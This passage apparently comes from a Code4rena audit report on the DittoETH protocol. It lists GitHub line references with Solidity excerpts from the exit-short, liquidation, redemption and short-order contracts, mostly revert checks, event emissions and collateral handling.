110:                 uint256 withdrawalFeePct = LibBridgeRouter.withdrawalFeePct(bridgePointer, rethBridge, stethBridge);

122:         emit Events.Withdraw(bridge, msg.sender, dethAmount, fee);

134:         if (dethAmount == 0) revert Errors.ParameterIsZero();

143:         emit Events.WithdrawTapp(bridge, msg.sender, dethAmount);

164:             if (vault == 0) revert Errors.InvalidBridge();
```

ExitShortFacet.sol ([53-53](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L53-L53), [61-61](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L61-L61), [62-62](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L62-L62), [67-73](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L67-L73), [75-75](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L75-L75), [99-99](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L99-L99), [103-103](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L103-L103), [113-113](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L113-L113), [115-115](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L115-L115), [120-126](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L120-L126), [128-128](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L128-L128), [152-152](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L152-L152), [158-164](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L158-L164), [174-174](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L174-L174), [178-178](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L178-L178), [188-188](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L188-L188), [196-196](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L196-L196), [197-197](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L197-L197), [201-201](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L201-L201), [201-201](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L201-L201), [204-204](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L204-L204), [208-208](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L208-L208), [210-210](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L210-L210)):

```solidity
53:         if (buybackAmount > ercDebt || buybackAmount == 0) revert Errors.InvalidBuyback();

61:             LibSRUtil.disburseCollateral(asset, msg.sender, collateral, short.dethYieldRate, short.updatedAt);

62:             LibShortRecord.deleteShortRecord(asset, msg.sender, id);

67:         LibSRUtil.checkShortMinErc({
68:             asset: asset,
69:             initialStatus: initialStatus,
70:             shortOrderId: shortOrderId,
71:             shortRecordId: id,
72:             shorter: msg.sender
73:         });

75:         emit Events.ExitShortWallet(asset, msg.sender, id, buybackAmount);

99:         if (buybackAmount == 0 || buybackAmount > ercDebt) revert Errors.InvalidBuyback();

103:             if (AssetUser.ercEscrowed < buybackAmount) revert Errors.InsufficientERCEscrowed();

113:             LibSRUtil.disburseCollateral(asset, msg.sender, collateral, short.dethYieldRate, short.updatedAt);

115:             LibShortRecord.deleteShortRecord(asset, msg.sender, id);

120:         LibSRUtil.checkShortMinErc({
121:             asset: asset,
122:             initialStatus: initialStatus,
123:             shortOrderId: shortOrderId,
124:             shortRecordId: id,
125:             shorter: msg.sender
126:         });

128:         emit Events.ExitShortErcEscrowed(asset, msg.sender, id, buybackAmount);

152:         LibOrders.updateOracleAndStartingShortViaTimeBidOnly(e.asset, shortHintArray);

158:         e.shortOrderIsCancelled = LibSRUtil.checkCancelShortOrder({
159:             asset: asset,
160:             initialStatus: short.status,
161:             shortOrderId: shortOrderId,
162:             shortRecordId: id,
163:             shorter: msg.sender
164:         });

174:         if (e.buybackAmount == 0 || e.buybackAmount > e.ercDebt) revert Errors.InvalidBuyback();

178:             if (ethAmount > e.collateral) revert Errors.InsufficientCollateral();

188:         if (e.ethFilled == 0) revert Errors.ExitShortPriceTooLow();

196:             LibSRUtil.disburseCollateral(e.asset, msg.sender, e.collateral, short.dethYieldRate, short.updatedAt);

197:             LibShortRecord.deleteShortRecord(e.asset, msg.sender, id); // prevent reentrancy

201:             if (short.ercDebt < LibAsset.minShortErc(asset)) revert Errors.CannotLeaveDustAmount();

201:             if (short.ercDebt < LibAsset.minShortErc(asset)) revert Errors.CannotLeaveDustAmount();

204:             if (getCollateralRatioNonPrice(short) < e.beforeExitCR) revert Errors.PostExitCRLtPreExitCR();

208:             LibSRUtil.disburseCollateral(e.asset, msg.sender, e.ethFilled, short.dethYieldRate, short.updatedAt);

210:         emit Events.ExitShort(asset, msg.sender, id, e.ercFilled);
```

PrimaryLiquidationFacet.sol ([54-54](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L54-L54), [56-56](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L56-L56), [59-65](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L59-L65), [68-68](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L68-L68), [73-73](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L73-L73), [75-75](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L75-L75), [75-75](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L75-L75), [87-87](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L87-L87), [109-109](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L109-L109), [126-126](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L126-L126), [134-134](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L134-L134), [135-135](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L135-L135), [137-137](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L137-L137), [138-138](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L138-L138), [139-139](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L139-L139), [174-174](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L174-L174), [230-230](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L230-L230), [246-246](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L246-L246), [247-247](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L247-L247), [260-260](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L260-L260), [265-265](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L265-L265), [267-276](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L267-L276), [282-288](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L282-L288)):

```solidity
54:         if (msg.sender == shorter) revert Errors.CannotLiquidateSelf();

56:         if (shortHintArray.length > 10) revert Errors.TooManyHints();

59:         LibSRUtil.checkCancelShortOrder({
60:             asset: asset,
61:             initialStatus: s.shortRecords[asset][shorter][id].status,
62:             shortOrderId: shortOrderId,
63:             shortRecordId: id,
64:             shorter: shorter
65:         });

68:         LibOrders.updateOracleAndStartingShortViaTimeBidOnly(asset, shortHintArray);

73:         if (m.cRatio >= LibAsset.liquidationCR(m.asset)) {

75:             if (!LibSRUtil.checkRecoveryModeViolation(m.asset, m.cRatio, m.oraclePrice)) revert Errors.SufficientCollateral();

75:             if (!LibSRUtil.checkRecoveryModeViolation(m.asset, m.cRatio, m.oraclePrice)) revert Errors.SufficientCollateral();

87:         emit Events.Liquidate(asset, shorter, id, msg.sender, m.ercDebtMatched);

109:             revert Errors.NoSells();

126:         LibShortRecord.updateErcDebt(asset, shorter, id);

134:             m.penaltyCR = LibAsset.penaltyCR(asset);

135:             m.oraclePrice = LibOracle.getPrice(asset);

137:             m.forcedBidPriceBuffer = LibAsset.forcedBidPriceBuffer(asset);

138:             m.callerFeePct = LibAsset.callerFeePct(m.asset);

139:             m.tappFeePct = LibAsset.tappFeePct(m.asset);

174:                 revert Errors.CannotSocializeDebt();

230:         if (a > type(uint88).max) revert Errors.InvalidAmount();

246:             LibSRUtil.disburseCollateral(m.asset, m.shorter, m.short.collateral, m.short.dethYieldRate, m.short.updatedAt);

247:             LibShortRecord.deleteShortRecord(m.asset, m.shorter, m.short.id);

260:             LibSRUtil.disburseCollateral(m.asset, m.shorter, decreaseCol, m.short.dethYieldRate, m.short.updatedAt);

265:                 LibShortRecord.deleteShortRecord(m.asset, m.shorter, m.short.id);

267:                 LibShortRecord.fillShortRecord(
268:                     m.asset,
269:                     address(this),
270:                     C.SHORT_STARTING_ID,
271:                     SR.FullyFilled,
272:                     m.short.collateral,
273:                     m.short.ercDebt,
274:                     s.asset[m.asset].ercDebtRate,
275:                     m.short.dethYieldRate
276:                 );

282:             LibSRUtil.checkShortMinErc({
283:                 asset: m.asset,
284:                 initialStatus: m.short.status,
285:                 shortOrderId: m.shortOrderId,
286:                 shortRecordId: m.short.id,
287:                 shorter: m.shorter
288:             });
```

RedemptionFacet.sol ([62-62](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L62-L62), [66-66](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L66-L66), [68-68](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L68-L68), [70-70](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L70-L70), [73-73](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L73-L73), [75-75](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L75-L75), [112-112](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L112-L112), [113-113](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L113-L113), [138-138](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L138-L138), [143-143](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L143-L143), [146-146](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L146-L146), [154-154](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L154-L154), [202-202](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L202-L202), [205-205](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L205-L205), [208-208](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L208-L208), [210-210](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L210-L210), [229-229](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L229-L229), [235-235](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L235-L235), [237-237](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L237-L237), [237-237](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L237-L237), [240-240](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L240-L240), [244-244](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L244-L244), [250-250](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L250-L250), [251-251](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L251-L251), [284-284](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L284-L284), [289-291](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L289-L291), [290-290](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L290-L290), [290-290](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L290-L290), [299-299](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L299-L299), [314-314](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L314-L314), [315-315](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L315-L315), [315-315](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L315-L315), [318-318](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L318-L318), [333-333](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L333-L333), [353-353](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L353-L353), [354-354](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L354-L354), [354-354](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L354-L354), [358-358](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L358-L358), [361-361](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L361-L361), [376-376](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L376-L376), [377-377](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L377-L377), [387-387](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L387-L387), [396-396](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L396-L396), [401-401](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L401-L401)):

```solidity
62:         if (proposalInput.length > type(uint8).max) revert Errors.TooManyProposals();

66:         uint256 minShortErc = LibAsset.minShortErc(p.asset);

68:         if (redemptionAmount < minShortErc) revert Errors.RedemptionUnderMinShortErc();

70:         if (redeemerAssetUser.ercEscrowed < redemptionAmount) revert Errors.InsufficientERCEscrowed();

73:         if (redeemerAssetUser.SSTORE2Pointer != address(0)) revert Errors.ExistingProposedRedemptions();

75:         p.oraclePrice = LibOracle.getPrice(p.asset);

112:                 if (shortOrder.shortRecordId != p.shortId || shortOrder.addr != p.shorter) revert Errors.InvalidShortOrder();

113:                 LibOrders.cancelShort(asset, p.shortOrderId);

138:             LibSRUtil.disburseCollateral(p.asset, p.shorter, p.colRedeemed, currentSR.dethYieldRate, currentSR.updatedAt);

143:         if (p.totalAmountProposed < minShortErc) revert Errors.RedemptionUnderMinShortErc();

146:         redeemerAssetUser.SSTORE2Pointer = SSTORE2.write(slate);

154:         uint32 protocolTime = LibOrders.getOffsetTime();

202:         redeemerAssetUser.timeProposed = LibOrders.getOffsetTime();

205:         if (redemptionFee > maxRedemptionFee) revert Errors.RedemptionFeeTooHigh();

208:         if (VaultUser.ethEscrowed < redemptionFee) revert Errors.InsufficientETHEscrowed();

210:         emit Events.ProposeRedemption(p.asset, msg.sender);

229:         if (redeemer == msg.sender) revert Errors.CannotDisputeYourself();

235:         if (redeemerAssetUser.SSTORE2Pointer == address(0)) revert Errors.InvalidRedemption();

237:         if (LibOrders.getOffsetTime() >= redeemerAssetUser.timeToDispute) revert Errors.TimeToDisputeHasElapsed();

237:         if (LibOrders.getOffsetTime() >= redeemerAssetUser.timeToDispute) revert Errors.TimeToDisputeHasElapsed();

240:             LibBytes.readProposalData(redeemerAssetUser.SSTORE2Pointer, redeemerAssetUser.slateLength);

244:                 revert Errors.CannotDisputeWithRedeemerProposal();

250:         uint256 minShortErc = LibAsset.minShortErc(d.asset);

251:         if (!validRedemptionSR(disputeSR, d.redeemer, disputeShorter, minShortErc)) revert Errors.InvalidRedemption();

284:                 emit Events.DisputeRedemptionAll(d.asset, redeemer);

289:             uint256 penaltyPct = LibOrders.min(
290:                 LibOrders.max(LibAsset.callerFeePct(d.asset), (currentProposal.CR - disputeCR).div(currentProposal.CR)), 0.33 ether
291:             );

290:                 LibOrders.max(LibAsset.callerFeePct(d.asset), (currentProposal.CR - disputeCR).div(currentProposal.CR)), 0.33 ether

290:                 LibOrders.max(LibAsset.callerFeePct(d.asset), (currentProposal.CR - disputeCR).div(currentProposal.CR)), 0.33 ether

299:             revert Errors.InvalidRedemptionDispute();

314:         if (redeemerAssetUser.SSTORE2Pointer == address(0)) revert Errors.InvalidRedemption();

315:         if (LibOrders.getOffsetTime() < redeemerAssetUser.timeToDispute) revert Errors.TimeToDisputeHasNotElapsed();

315:         if (LibOrders.getOffsetTime() < redeemerAssetUser.timeToDispute) revert Errors.TimeToDisputeHasNotElapsed();

318:             LibBytes.readProposalData(redeemerAssetUser.SSTORE2Pointer, redeemerAssetUser.slateLength);

333:         emit Events.ClaimRedemption(asset, msg.sender);

353:         if (redeemerAssetUser.SSTORE2Pointer == address(0)) revert Errors.InvalidRedemption();

354:         if (redeemerAssetUser.timeToDispute > LibOrders.getOffsetTime()) revert Errors.TimeToDisputeHasNotElapsed();

354:         if (redeemerAssetUser.timeToDispute > LibOrders.getOffsetTime()) revert Errors.TimeToDisputeHasNotElapsed();

358:             LibBytes.readProposalData(redeemerAssetUser.SSTORE2Pointer, claimIndex + 1);

361:         if (claimProposal.shorter != msg.sender && claimProposal.shortId != id) revert Errors.CanOnlyClaimYourShort();

376:             LibSRUtil.disburseCollateral(asset, shorter, collateral, shortRecord.dethYieldRate, shortRecord.updatedAt);

377:             LibShortRecord.deleteShortRecord(asset, shorter, shortId);

387:         uint32 protocolTime = LibOrders.getOffsetTime();

396:         newBaseRate = LibOrders.min(newBaseRate, 1 ether); // cap baseRate at a maximum of 100%

401:         uint256 redemptionRate = LibOrders.min((Asset.baseRate + 0.005 ether), 1 ether);
```

ShortOrdersFacet.sol ([48-48](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L48-L48), [50-50](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L50-L50), [52-52](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L52-L52), [56-56](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L56-L56), [56-56](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L56-L56), [58-58](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L58-L58), [59-59](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L59-L59), [62-62](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L62-L62), [69-69](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L69-L69), [76-76](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L76-L76), [76-76](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L76-L76), [79-79](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L79-L79), [80-80](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L80-L80), [81-81](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L81-L81), [86-86](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L86-L86), [88-88](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L88-L88)):

```solidity
48:         incomingShort.shortRecordId = LibShortRecord.createShortRecord(asset, msg.sender, SR.Closed, 0, 0, 0, 0, 0);

50:         uint256 cr = LibOrders.convertCR(shortOrderCR);

52:             revert Errors.InvalidCR();

56:         p.minShortErc = cr < 1 ether ? LibAsset.minShortErc(asset).mul(1 ether + cr.inv()) : LibAsset.minShortErc(asset);

56:         p.minShortErc = cr < 1 ether ? LibAsset.minShortErc(asset).mul(1 ether + cr.inv()) : LibAsset.minShortErc(asset);

58:         p.minAskEth = LibAsset.minAskEth(asset);

59:         if (ercAmount < p.minShortErc || p.eth < p.minAskEth) revert Errors.OrderUnderMinimumSize();

62:         if (s.vaultUser[Asset.vault][msg.sender].ethEscrowed < p.eth.mul(cr)) revert Errors.InsufficientETHEscrowed();

69:         incomingShort.creationTime = LibOrders.getOffsetTime();

76:             LibOrders.updateOracleAndStartingShortViaThreshold(asset, LibOracle.getPrice(asset), incomingShort, shortHintArray);

76:             LibOrders.updateOracleAndStartingShortViaThreshold(asset, LibOracle.getPrice(asset), incomingShort, shortHintArray);

79:         p.oraclePrice = LibOracle.getSavedOrSpotOraclePrice(asset);

80:         if (LibSRUtil.checkRecoveryModeViolation(asset, cr, p.oraclePrice)) {

81:             revert Errors.BelowRecoveryModeCR();

86:             LibOrders.addShort(asset, incomingShort, orderHintArray);

88:             LibOrders.sellMatchAlgo(asset, incomingShort, orderHintArray, p.minAskEth);
```

LibBridgeRouter.sol ([75-75](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L75-L75), [105-105](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L105-L105), [118-118](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L118-L118), [122-122](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L122-L122)):

```solidity
